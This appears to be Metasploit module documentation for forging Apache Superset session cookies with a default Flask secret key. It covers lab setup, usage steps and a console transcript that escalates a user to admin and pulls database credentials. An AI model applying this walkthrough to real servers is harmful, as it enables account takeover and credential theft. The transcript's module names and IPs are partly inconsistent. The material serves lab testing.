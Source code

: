 
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

## App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'Public' as the role.

If you want any database credentials to be pulled, you'll need to configure a database as well.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.

### ADMIN_ID

The ID of an admin account. Defaults to `1`

### SECRET_KEYS_FILE

A file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/superset_secret_keys.tx`

## Scenarios

### Superset 2.0.0 Docker image

```
msf6 > use auxiliary/gather/apache_superset_cookie_sig_priv_esc 
msf6 auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf6 auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEi.ZP8uyQ.iBpplhnMpXOZnjiV1Xh_reR_uLw
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiOTM0MGZmYjhkNzgzYjg1Y2JjOWY1ZDA4Yzg1NzBkNTNkZWFkMzBmMSIsImxvY2FsZSI6ImVuIn0.ZP8uyQ.jHXs3u8dqoBUWeL1vjUTxXOWLAo;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY;
.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY
[*] 127.0.0.1:8088 - Checking secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[-] 127.0.0.1:8088 - Incorrect Secret Key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[*] 127.0.0.1:8088 - Checking secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - Modified cookie: {"_flashes"=>[{" t"=>["warning", "Invalid login. Please try again."]}], "_fresh"=>false, "csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en", "user_id"=>1}
[*] 127.0.0.1:8088 - Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIkludmFsaWQgbG9naW4uIFBsZWFzZSB0cnkgYWdhaW4uIl19XSwiX2ZyZXNoIjpmYWxzZSwiY3NyZl90b2tlbiI6IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZP8uyQ.7Rgp9a7iPK-m7NQRbWpixG62CMo
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found Super Secret DB: postgresql://dbuser:mysecretpassword@1.1.1.1:15432/supersetdb
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf6 auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```

